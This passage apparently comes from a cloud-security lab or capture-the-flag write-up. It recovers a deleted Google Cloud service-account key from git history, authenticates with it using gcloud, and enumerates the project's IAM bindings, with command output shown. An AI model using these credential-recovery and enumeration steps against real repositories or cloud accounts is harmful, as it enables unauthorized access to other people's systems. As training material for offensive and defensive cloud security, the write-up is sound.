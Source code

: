 ```
-  "auth_uri": "https://accounts.google.com/o/oauth2/auth",
-  "token_uri": "https://oauth2.googleapis.com/token",
-  "auth_provider_x509_cert_url": "https://www.googleapis.com/oauth2/v1/certs",
-  "client_x509_cert_url": "https://www.googleapis.com/robot/v1/metadata/x509/internal-web-dev-team%40gr-proj-1.iam.gserviceaccount.com",
-  "universe_domain": "googleapis.com"
-}
-
-

```

Retrieve the exact contents of the file with the command below. The `^` symbol is used to reference the parent commit of the specified commit hash, as the log shows the content of `token.json` as it was in the commit immediately before 
```
└─$ git show c0297dabb406dee0b9d0b4b96d40d1d9d96c9fde^:token.json > token.json
   
```

Let's authenticate using service key file
```
└─$ gcloud auth activate-service-account --key-file=token.json
Activated service account credentials for: [internal-web-dev-team@gr-proj-1.iam.gserviceaccount.com]
    
```
Let's enumerate IAM roles and policies
```
└─$ gcloud projects get-iam-policy gr-proj-1 --format=json
{
  "bindings": [
    {
      "members": [
        "serviceAccount:internal-web-dev-team@gr-proj-1.iam.gserviceaccount.com"
      ],
      "role": "projects/gr-proj-1/roles/CustomAppDevRole"
    },
    {
      "members": [
        "serviceAccount:sv1-337@gr-proj-1.iam.gserviceaccount.com"
      ],
      "role": "projects/gr-proj-1/roles/CustomFrontendAppDevRole"
    },
    {
      "members": [
        "serviceAccount:bucketviewer@gr-proj-1.iam.gserviceaccount.com",
        "serviceAccount:frontend-dev-buckets@gr-proj-1.iam.gserviceaccount.com",
        "serviceAccount:sv3-939@gr-proj-1.iam.gserviceaccount.com"
      ],
      "role": "projects/gr-proj-1/roles/CustomRole"
    },
    {
      "members": [
        "serviceAccount:appdev@gr-proj-1.iam.gserviceaccount.com"
      ],
      "role": "projects/gr-proj-1/roles/CustomRole178"
    },
    {
      "members": [
        "serviceAccount:setmetadata@gr-proj-1.iam.gserviceaccount.com"
      ],
      "role": "projects/gr-proj-1/roles/CustomRole353"
    },
    {
```